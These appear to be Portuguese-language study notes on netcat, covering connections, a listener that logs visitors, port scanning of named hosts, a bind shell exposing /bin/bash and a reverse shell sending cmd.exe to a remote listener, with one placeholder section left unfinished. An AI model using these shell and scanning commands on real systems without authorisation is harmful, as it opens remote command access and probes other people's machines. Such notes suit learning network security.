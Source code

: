 ## Netcat
netcat é usado para estabelecer conexões e interagir com o servidor

| nc | IP | port |
| ---- | ---- | ---- |

> $ nc businesscorp.com.br 21
> $ nc 192.168.0.25 8809 



>-v : Mostrar mais informações 
> $ nc -v [creativedigital.com.br](http://creativedigital.com.br) 21






- Netcat logger
    
    $ nc -vnlp [porta]
    
    Faz com que o netcat ouça a porta escolhida e capture o IP e o UserAgent da vitima
    
    É possivel colocar um arquivo pra dentro de uma porta com o
    
    $ nc -vnlp 80 < banner
    
    $ nc -vnlp [porta] < [arquivo]
    
- Scan de Portas
    
    $ nc -vnz [ip] [porta] ou [1-65535]
    
    $ nc -vnz 191.252.86.194 80
    
    ---
    
    Tambem é possivel criar um arquivo apenas com as portas que você quer scanear e mandar para o netcat
    
    No caso criamos o arquivo portas
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/afacce63-efd3-48f8-8451-f736ec466624/Untitled.png)
    
    e mandamos para o netcat scanear quais estão abertas
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ed73eb3c-55cc-4d3c-bb72-a51a70785f90/Untitled.png)
    
- Honeypot
	sdsds
    
- Bind Shell (Invasão remota)
    
    $ nc -vnlp 5050 -e /bin/bash
    
    - Basicamente o netcat abre uma porta 5050 e quem se conectar na porta vai ganhar acesso ao /bin/bash
    - Para conectar: nc -vn 192.168.0.200 5050
    - Isso serve tanto pra /bin/bash quanto pra cmd.exe


- Inverse Shell
    
    LINUX: ABRE A PORTA 5050*
    
    $ nc -vnlp 5050
    
    WINDOWS: ENVIA O CMD PRO LINUX
    
    $ ncat -vn 192.168.0.32 5050 -e cmd.exe
    
    ****OU AO CONTRARIO****